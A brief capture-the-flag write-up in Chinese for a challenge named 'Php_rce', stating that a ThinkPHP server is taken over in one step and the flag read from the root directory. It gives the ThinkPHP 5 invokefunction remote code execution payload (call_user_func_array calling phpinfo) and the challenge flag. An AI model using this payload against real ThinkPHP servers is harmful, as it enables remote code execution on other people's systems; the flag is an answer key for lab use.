 # Php_rce

> Thinkphp 一把梭getshell,主机根目录下获取flag

## 思路分析

> Thinkphp 一把梭getshell,主机根目录下获取flag

## payload

> ?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1

## flag

> flag{thinkphp5_rce}
